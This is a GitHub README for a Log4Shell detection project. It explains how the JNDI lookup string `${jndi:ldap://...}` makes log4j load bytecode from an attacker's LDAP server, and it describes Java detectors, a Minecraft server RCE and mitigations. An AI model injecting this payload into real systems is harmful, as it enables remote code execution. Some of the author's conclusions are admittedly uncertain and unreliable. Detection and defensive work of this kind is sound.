 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

take this with grain of salt, I'm not a security expert.


inb4:

https://user-images.githubusercontent.com/49940811/176066056-e96eef48-42f2-47d3-b270-477c2a19b654.mp4

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server RCE exploit
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency

- Note: not always the case, sometimes it doesn't bother to load class url location given by LDAP Server
- Vulnerable to lookup:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Log:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Note: doesn't mean it's vulnerable to RCE exploit.
- Vulnerable to lookup:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server logs:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Note: if it's get logged, doesn't mean it's vulnerable to RCE
- Vulnerable to lookup:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

## Conclusion

- if java do LDAP lookup doesn't mean it is always vulnerable, but if is load the classpath provided then it is ?
  - vulnerable to RCE and LDAP lookup:
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448027058540554/unknown.png)
  - not vulnerable because java don't fetch bytecode ??, still vulnerable to LDAP lookup:
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448406924083210/unknown.png)

- to test if it's actually vulnerable to RCE, try to use harmless payloads if its running then its vulnerable.

- if `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true` then you are vulnerable like really else, the
  attacker can use existing classpath
  ![](https://cdn.discordapp.com/attachments/918290369639227434/919240541810610206/unknown.png)

- if you found the victim log and see this:

```
  Caused by: java.lang.ClassNotFoundException: itzbenz.payload.ObjectPayloadSerializable
        at java.net.URLClassLoader.findClass(Unknown Source)
        at java.lang.ClassLoader.loadClass(Unknown Source)
        at sun.misc.Launcher$AppClassLoader.loadClass(Unknown Source)
        at java.lang.ClassLoader.loadClass(Unknown Source)
  ```

it's safe because it will not load classpath provided by attacker ?? though it's still doing LDAP lookup which is large
attack surface.

note: (after updating java 8, the minecraft server seem not load the classpath)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior
permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
